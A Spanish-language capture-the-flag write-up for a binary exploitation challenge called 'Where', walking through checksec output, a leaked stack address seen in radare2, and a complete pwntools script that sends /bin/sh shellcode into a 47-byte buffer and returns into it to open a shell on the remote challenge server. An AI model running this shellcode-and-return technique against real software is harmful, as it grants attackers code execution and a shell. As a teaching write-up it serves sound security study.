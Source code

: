 # Where

```
checksec --file=where/where/chal
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   41 Symbols	  No	0		2		where/where/chal
```

- El binario no tiene canario, o sea hay buffer overflow seguro en la entrada

- Tiene NX disabled, asi que se puede ejecutar codigo del stack

- No tiene PIE, asi que no necesitamos hallar la direccion base del binario para calcular direcciones de retorno porque estas no cambian.

Nos filtran una direccion del stack 8 bytes antes del inicio de nuestro buffer:
```
[0x7f4e1a4c5b40]> dc
I have put a ramjet on the little einstein's rocket ship
However, I do not know WHERE to go on the next adventure!
Quincy says somewhere around here might be fun... 0x7ffec6979dd8
INFO: hit breakpoint at: 0x40122c
[0x0040122c]> dc
AAAAAAAAAAAAAAA
INFO: hit breakpoint at: 0x401244
[0x0040122c]> pxQ 64@ rsp
0x7ffec6979dd0 0x0000000000000000 section.
0x7ffec6979dd8 0x0000000000000000 section.      # Direccion filtrada
0x7ffec6979de0 0x4141414141414141               # Nuestra entrada: 'AAAAAAAA'
0x7ffec6979de8 0x0a41414141414141               # 'AAAAAAA'
0x7ffec6979df0 0x00007ffec6979e00 rbp
0x7ffec6979df8 0x00007ffec6979e90 rbp+144
0x7ffec6979e00 0x0000000000000001 r8
0x7ffec6979e08 0x00007f4e1a2bbd68
```

La idea es escribir shellcode en el stack, retornar al comienzo de nuestra entrada para ejecutarlo.

El problema es que la entrada es pequeña, 48 bytes - 1 para '\0' que toma fgets:
```
|           0x00401237      be30000000     mov esi, 0x30               ; '0' ; 48
|           0x0040123c      4889c7         mov rdi, rax
|           0x0040123f      e85cfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
```

Tenemos solo 47 bytes pero necesitamos inyectar una carga util de:

`shellcode` + `direccion_retorno_en_el_stack` 

Pero los shellcodes para `/bin/cat flag.txt` y `/bin/sh` que trae pwntools son muy grandes (48 y 44 bytes respectivamente), y eso equivale a 48+8=56 y 44+8=52 bytes, es demasiado.

Afortunadamente me encontre este shellcode para `/bin/sh` en shellstorm de solo 24 bytes :)

https://shell-storm.org/shellcode/files/shellcode-909.html

```
from pwn import *

elf = context.binary = ELF("./chal")
context.arch='amd64'
#io = process("./chal")
io = remote("where.harkonnen.b01lersc.tf",8443,ssl=True,sni=True)

#gdb.attach(io,gdbscript="""
#           break *main+103
#           """)

# for test return
main = 0x00000000004011dd

# Get address
io.recvuntil(b"Quincy says somewhere around here might be fun... ")
stack_addr = int(io.recvline().strip(),16)
buffer_addr = stack_addr + 0x8

# NX
byteList = [0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x50, 0x54, 0x5f, 0x31, 0xc0, 0x50, 0xb0, 0x3b, 0x54, 0x5a, 0x54, 0x5e, 0x0f, 0x05]
sh = bytes(byteList)
payload = sh.ljust(40,b"\x90") + p64(buffer_addr)
io.sendline(payload)
io.interactive()
```

` bctf(s0_th@ts_wh3r3_Our_ch1ldh00d_w3nt_d06fa4ee84a2e731)`



